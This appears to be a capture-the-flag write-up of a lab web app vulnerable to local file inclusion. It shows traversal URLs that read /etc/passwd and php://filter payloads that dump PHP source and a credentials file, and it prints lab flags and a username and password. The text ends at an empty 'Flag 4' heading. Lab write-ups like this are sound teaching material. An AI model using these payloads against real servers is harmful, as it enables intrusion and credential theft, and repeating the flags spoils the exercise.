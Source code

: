 Visiting a all readable file /etc/passwd displays result which means this is vulnerable to LFI `http://10.10.204.37/index.php?err=../../../etc/passwd`

Visit `https://10.10.204.37/index.php?err=/etc/flag` to get first flag `THM{d29e08941cf7fe41df55f1a7da6c4c06}`

## Flag 2 - view index.php source code

To get content of the php code itself, use php filter technique. If we pass the page itself, the client will just render the php. 

Ie. if we visit `https://10.10.204.37/index.php?err=index.php` we would get php error.

We use base64 encoding with `php://filter/convert.base64-encode/resource` 

Visit to see if this works `https://10.10.204.37/index.php?err=php://filter/convert.base64-encode/resource=/etc/passwd`

Visit `https://10.10.204.37/index.php?err=php://filter/convert.base64-encode/resource=index.php` and decode base64 to get source code

```
echo "PD9waHAgc2Vzc2lvbl9zdGFydCgpOwokZmxhZyA9ICJUSE17NzkxZDQzZDQ2MDE4YTBkODkzNjFkYmY2MGQ1ZDllYjh9IjsKaW5jbHVkZSgiLi9pbmNsdWRlcy9jcmVkcy5waHAiKTsKaWYoJF9TRVNTSU9OWyd1c2VybmFtZSddID09PSAkVVNFUil7ICAgICAgICAgICAgICAgICAgICAgICAgCgloZWFkZXIoICdMb2NhdGlvbjogbWFuYWdlLnBocCcgKTsKCWRpZSgpOwp9IGVsc2UgewoJJGxhYk51bSA9ICIiOwogIHJlcXVpcmUgIi4vaW5jbHVkZXMvaGVhZGVyLnBocCI7Cj8" | base64 -d
<?php session_start();
$flag = "THM{791d43d46018a0d89361dbf60d5d9eb8}";
include("./includes/creds.php");
if($_SESSION['username'] === $USER){                        
        header( 'Location: manage.php' );
        die();
} else {
        $labNum = "";
  require "./includes/header.php";
?base64: invalid input
```

flag: `THM{791d43d46018a0d89361dbf60d5d9eb8}`

## Flag 3 

Visit `https://10.10.204.37/index.php?err=php://filter/convert.base64-encode/resource=includes/creds.php` and decode base64

```
echo "PD9waHAgCiRVU0VSID0gIk1jU2tpZHkiOwokUEFTUyA9ICJBMEMzMTVBdzNzMG0iOwo" | base64 -d
<?php 
$USER = "McSkidy";
$PASS = "A0C315Aw3s0m";
base64: invalid input
```

## Flag 4
